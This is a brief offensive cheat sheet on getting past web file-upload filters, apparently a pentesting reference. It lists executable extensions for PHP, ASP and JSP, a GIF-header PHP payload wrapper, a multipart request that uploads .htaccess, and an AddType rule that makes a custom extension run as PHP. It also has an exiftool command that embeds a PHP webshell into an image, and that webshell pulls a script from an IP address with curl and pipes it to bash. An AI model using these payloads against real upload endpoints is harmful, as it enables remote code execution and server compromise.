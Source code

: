 # upload file cheat sheets



### useful files extensions :
-   **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc_
```
php
php2
php3
php4
php5
php6
php7
phps
pht
phtm
phtml
pgif
shtml
htaccess
phar
inc
```
-   **ASP**: _.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml_
-   **Jsp:** _.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action_
-   **Coldfusion:** _.cfm, .cfml, .cfc, .dbm_
-   **Flash**: _.swf_
-   **Perl**: _.pl, .cgi_
-   **Erlang Yaws Web Server**: _.yaws_

## useful methods
- edit file path in header 
- bypass PHP metadata validation 
```
GIF89a1

<?php payload ?>

GIF89a1
```
-  Obfuscating : nullbyte | tricky name |  semi-colon ... 
```HTTP
POST /upload HTTP/1.1
Host: localhost

------WebKitFormBoundaryFc8zMoVPR7Y1FBvp
Content-Disposition: form-data; name="uploadfiles"; filename=".htaccess"
Content-Type: image/jpeg

```
- edit .htaccess | mime type 
```htaccess
AddType application/x-httpd-php .soraka
```
-  add the payload as comment in image - polygot payload
```bash
exiftool -Comment="<?php system('curl 10.8.129.32:5555/shell.sh | bash') ?>" wallpaper.jpg
```
- check for race-condition : tamper with uploads , 
- upload unexploitable files html , svg [ check 'same-origin' policy first ] - xss
- use another upload methods : PUT 
- try XXE using microsoft office files
- 